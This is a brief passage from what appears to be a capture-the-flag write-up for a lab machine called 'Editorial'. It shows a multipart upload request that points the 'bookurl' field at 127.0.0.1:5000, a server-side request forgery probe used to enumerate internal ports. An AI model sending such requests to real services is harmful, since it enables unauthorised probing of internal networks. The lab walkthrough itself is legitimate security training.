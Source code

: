 We noticed that every time a cover got `uploaded`, the application generated a `URL` containing a `UUID`. 

```c
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 305
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryETNDuBrmCGTX1N83
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryETNDuBrmCGTX1N83
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:5000
------WebKitFormBoundaryETNDuBrmCGTX1N83
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryETNDuBrmCGTX1N83--

```

![](images/2024-06-16_03-07_ssrf_port_enumeration.png)
